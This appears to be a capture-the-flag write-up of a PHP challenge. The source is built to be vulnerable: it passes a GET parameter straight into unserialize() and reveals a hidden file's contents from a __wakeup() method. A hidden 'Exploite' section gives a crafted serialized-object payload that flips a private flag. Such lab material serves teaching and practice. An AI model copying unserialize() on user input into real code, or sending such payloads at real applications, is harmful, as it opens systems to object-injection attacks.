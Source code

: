 ```php
# Try to get the next.php

<?php
class reviving_neo {
    private $dead = true;

    function __wakeup() {
        if ($this->dead == false) {
            require_once("next.php");
            die($next);
        }
    }
}

if (isset($_GET["code"])) {
    unserialize($_GET["code"]);
}

?>
```

<details>
  <summary><b>Exploite</b></summary>

  ```text
we should make the dead variable false :

code=O:12:"reviving_neo":1:{s:4:"dead";b:0;}
  ```
</details>
